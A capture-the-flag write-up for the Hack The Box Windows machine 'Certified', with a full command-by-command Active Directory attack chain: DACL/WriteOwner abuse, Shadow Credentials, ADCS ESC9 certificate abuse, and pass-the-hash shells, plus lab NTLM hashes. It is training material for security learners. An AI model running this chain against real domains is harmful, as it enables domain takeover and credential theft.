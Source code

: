 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB](HTB) 
- **Exploits Used**:
  - 🔓 **Assume Breach**: `WriteOwner` → DACL abuse → Shadow Credential  
  - 🔑 **ADCS ESC9**: UPN swap + no‑security‑ext template  
  - 🔄 **Shadow Credential** (Certipy) for NTLM extraction

**Open Ports:**
- 88/tcp [Kerberos]  
- 389/tcp [LDAP]  
- 445/tcp [SMB]  
- 5985/tcp [WinRM]  

---

## 🧠 TLDR  
1. **judith.mader** logs in, runs Bloodhound‑CE → finds ACL path to **management_svc** → **ca_operator**.  
2. Use **owneredit.py** + **dacledit.py** + `net rpc` to add judith ➡️ **Management_SVC**.  
3. As **management_svc**, inject **Shadow Credential** on itself → steal NTLM.  
4. As **ca_operator**, repeat **Shadow Credential** → steal its NTLM.  
5. Exploit **ADCS ESC9** via **ca_operator**: swap UPN→Administrator, request cert, extract admin hash.  
6. **Evil-WinRM** pass‑the‑hash → shell as **Administrator**. 🎉  

---

## 🧰 Tools  
- 🕵️ Recon & SMB: `nmap`, `netexec`  
- 📊 ACL Mapping: Bloodhound‑CE (`bloodhound-python`)  
- 🛠️ ACL Abuse: Impacket’s `owneredit.py`, `dacledit.py` + `net rpc`  
- 🧩 Shadow Credentials: `certipy shadow`  
- 🎛️ ADCS ESC9: `certipy account update`, `certipy req`, `certipy auth`  
- 💻 Shell: `evil-winrm`  

---

## 🚀 Commands to Solve Box
```bash
# 1) Recon & login
nmap -p- --min-rate 10000 10.10.11.41
nmap -p88,389,445,5985 -sCV 10.10.11.41
netexec smb 10.10.11.41 -u judith.mader -p judith09 --shares

# 2) Bloodhound-CE collection
bloodhound-python -c all -u judith.mader -p judith09 \
  -d certified.htb -ns 10.10.11.41 --zip
# Upload ZIP to Bloodhound-CE UI → find ACL path

# 3) WriteOwner & DACL abuse
owneredit.py -action write \
  -new-owner judith.mader -target Management \
  certified/\
judith.mader:judith09 -dc-ip 10.10.11.41

dacledit.py -action write \
  -rights WriteMembers -principal judith.mader \
  -target Management certified/\
judith.mader:judith09 -dc-ip 10.10.11.41

net rpc group addmem Management judith.mader \
  -U "certified.htb/judith.mader%judith09" -S 10.10.11.41

# 4) Shadow Cred on management_svc
certipy shadow auto \
  -username judith.mader@certified.htb \
  -password judith09 \
  -account management_svc \
  -target certified.htb \
  -dc-ip 10.10.11.41
# → NTLM: a091c1832bcdd4677c28b5a6a1295584

# 5) Shell as management_svc
evil-winrm -i 10.10.11.41 \
  -u management_svc \
  -H a091c1832bcdd4677c28b5a6a1295584

# 6) Shadow Cred on ca_operator
certipy shadow auto \
  -username management_svc@certified.htb \
  -hashes :a091c1832bcdd4677c28b5a6a1295584 \
  -account ca_operator \
  -target certified.htb \
  -dc-ip 10.10.11.41
# → NTLM: b4b86f45c6018f1b664f70805f45d8f2

# 7) ESC9 ADCS exploit (ca_operator→Administrator)
certipy account update \
  -u management_svc \
  -hashes :a091c1832bcdd4677c28b5a6a1295584 \
  -user ca_operator \
  -upn Administrator \
  -dc-ip 10.10.11.41

certipy req \
  -u ca_operator \
  -hashes :b4b86f45c6018f1b664f70805f45d8f2 \
  -ca certified-DC01-CA \
  -template CertifiedAuthentication \
  -dc-ip 10.10.11.41

certipy auth \
  -pfx administrator.pfx \
  -dc-ip 10.10.11.41
# → admin hash: 0d5b49608bbce1751f708748f67e2d34

# 8) Shell as Administrator
evil-winrm -i 10.10.11.41 \
  -u administrator \
  -H 0d5b49608bbce1751f708748f67e2d34
```

---

## 🎓 Actions Learned
- 📝 **WriteOwner Abuse** to seize group ownership  
- 🚧 **DACL Editing** (`WriteMembers`) to escalate membership  
- 🛡️ **Shadow Credential** injection for stealth NTLM harvest  
- 🔐 **ADCS ESC9 UPN Swap** for certificate‑based PTH to Administrator  

---

## 📚 References
- [Bloodhound‑CE (Docker)](https://github.com/BloodHoundAD/BloodHound#community-edition)  
- [Bloodhound.py Collector](https://github.com/dirkjanm/BloodHound.py)  
- [Impacket Examples](https://github.com/SecureAuthCorp/impacket#examples)  
- [Certipy (Shadow Credential)](https://github.com/ly4k/Certipy)  
- [ESC9 Attack Writeup](https://github.com/ly4k/Certipy#esc9)  
- [HTB Certified Walkthrough](https://0xdf.gitlab.io/2025/03/15/htb-certified.html)  